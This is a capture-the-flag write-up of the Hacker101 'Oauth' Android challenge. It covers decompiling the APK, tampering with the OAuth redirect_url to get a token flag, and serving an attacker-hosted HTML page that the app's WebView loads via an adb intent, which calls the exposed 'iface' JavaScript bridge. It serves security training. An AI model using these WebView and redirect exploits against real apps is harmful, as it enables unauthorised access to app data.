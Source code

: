 ![[oauth1.png]]
**Difficulty:** Moderate
**Skills:** Android
**Flags:** 2

---

## Flag 1/2
The first thing that we need to do is download the **.APK** file and decompile with **apktool** 
```bash
apktool d oauth.apk
```

And for recon, I’ll run **MobSF** and **jadx-gui**
The **target SDK** is **28**, then I will use my **Android 9.0** with _Genymotion_.
Install the **.APK** with

```bash
adb install oauth.apk
```
![[oauth2.png]]

When we click on the button, this piece of code is executed:
_NOTE: URL is my private instance._

```java
public void onClick(View view) {
    if (view.getId() != R.id.button) {
        return;
    }
    String str = null;
    try {
        str = "https://URL.ctf.hacker101.com/oauth?redirect_url=" + URLEncoder.encode(this.authRedirectUri, StandardCharsets.UTF_8.toString()) + "login&response_type=token&scope=all";
    } catch (UnsupportedEncodingException e) {
        e.printStackTrace();
    }
    Intent intent = new Intent("android.intent.action.VIEW");
    intent.setData(Uri.parse(str));
    startActivity(intent);
}
```

In **burpsuite**, we can capture this **request**:
```bash
GET /oauth?redirect_url=oauth://final/login&response_type=token&scope=all HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

The **response** is:
```bash
HTTP/2 200 OK
Date: Wed, 03 Apr 2024 09:14:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 101
Server: openresty/1.25.3.1

<a href="oauth://final/login?token=3e9c275b75929032141f0d0775ca53e8">Authorize Mobile Application</a>
```

_For every request, we get a new token_.
And click on the **Authorize Mobile Application**
Then, we are redirect to the App.
![[oauth3.png]]

Looking at the **Browser.java** source code, in this piece:
```java
public void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    setContentView(R.layout.activity_browser);
    String str = "https://URL.ctf.hacker101.com/authed";
    try {
        Uri data = getIntent().getData();
        if (data != null && data.getQueryParameter("uri") != null) {
            str = data.getQueryParameter("uri");
        }
    } catch (Exception unused) {
    }
    WebView webView = (WebView) findViewById(R.id.webview);
    webView.setWebViewClient(new SSLTolerentWebViewClient(webView));
    webView.getSettings().setJavaScriptEnabled(true);
    webView.addJavascriptInterface(new WebAppInterface(getApplicationContext()), "iface");
    webView.loadUrl(str);
}
```

I noticed that there are an endpoint (**/authed**).
Then, I tried change the request of above
```bash
GET /oauth?redirect_url=oauth://final/login&response_type=token&scope=all HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

To:
```bash
GET /oauth?redirect_url=authed HTTP/2
Host: URL.ctf.hacker101.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 9; Pixel Build/PI; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/74.0.3729.186 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Requested-With: org.chromium.webview_shell
```

And we get the flag in the response:
```bash
HTTP/2 200 OK
Date: Wed, 03 Apr 2024 09:18:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 132
Server: openresty/1.25.3.1

<a href="authed?token=^FLAG^6a635d3784aeca7***********************f67a72a3b2$FLAG$">Authorize Mobile Application</a>
```
This is because when we click on **Authorize Mobile Application**, behind scene the “_token flag_” is generated, in the activity without content.

## Flag 2/2
Looking the source code, I noticed that **WebAppInterface.java** have **getFlagPath()**
Where an **url** is crafted with _some randoms numbers_.
And at _the end_, we can see that **finalize** in **.html**
And looking in the **Browser.java** we can see:
```java
try {
        Uri data = getIntent().getData();
        if (data != null && data.getQueryParameter("uri") != null) {
            str = data.getQueryParameter("uri");
        }
    } catch (Exception unused) {
    }
    WebView webView = (WebView) findViewById(R.id.webview);
    webView.setWebViewClient(new SSLTolerentWebViewClient(webView));
    webView.getSettings().setJavaScriptEnabled(true);
    webView.addJavascriptInterface(new WebAppInterface(getApplicationContext()), "iface");
    webView.loadUrl(str);
}
```

Then, we need call the param “**uri**” with **JavaScript** code hosted by our own, calling the **WebApp** know as **iface**.
This code can clarify this:
```HTML
<html>
  <head>
  </head>
  <body>
    <h1>Test</h1>
    <p id="msg">Test</p>
    <script type="text/javascript">
      var msg = document.getElementById("msg");
      msg.innerHTML = iface.getFlagPath();
    </script>
  </body>
</html>
```

So, with a simple Python server we can just:
```bash
python3 -m http.server 8081
```

Then with **adb** we can call the **URL** with:
```bash
oauth://final/?uri=<ourHostedHTMLfile>
```

This is the command:
```bash
adb shell am start -a android.intent.action.VIEW -d "oauth://final/?uri=http://192.168.1.4:8081/expl.html" com.hacker101.oauth
```


Letme explain the command ^^

**adb shell am start**
This command is used to start an activity on the Android device.

**-a android.intent.action.VIEW**
Specifies the action to be performed, in this case, opening a view.

**-d “oauth://final/?uri=http://192.168.1.4:8081/expl.html”**
This indicates the URI to which the action will be directed. In this case, it looks like you are trying to open a link pointing to “[http://192.168.1.4:8081/expl.html](http://192.168.1.4:8081/expl.html)” with a scheme of “oauth://final/”.

**com.hacker101.oauth**
This is the name of the application package to which this intent will be sent.

So, _executing this command_, we’ll launch the app and a new **.html** file will appear.
![[oauth4.png]]

Copy, paste and **get the flag**.

I hope you found it useful (: